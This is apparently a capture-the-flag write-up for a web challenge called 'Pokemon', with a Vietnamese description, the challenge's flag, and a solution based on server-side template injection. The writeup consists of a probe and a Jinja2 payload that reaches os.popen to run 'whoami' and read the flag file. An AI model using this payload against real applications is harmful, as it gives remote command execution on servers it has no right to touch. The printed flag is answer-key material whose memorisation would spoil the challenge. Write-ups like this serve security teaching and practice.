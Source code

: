 # Pokemon
Category: Web

Difficulty: Medium

### Description
Hãy cùng nhau chọn ra 1 người bạn đồng hành trong hành trình sắp tới tại clb E nào.

### Flag
ehcctf(g0tt4c_c4tch_3m_4ll)


### Concept
SSTI

### Writeup
`{{7*7}}`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=whoami`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=cat ../flag.txt`
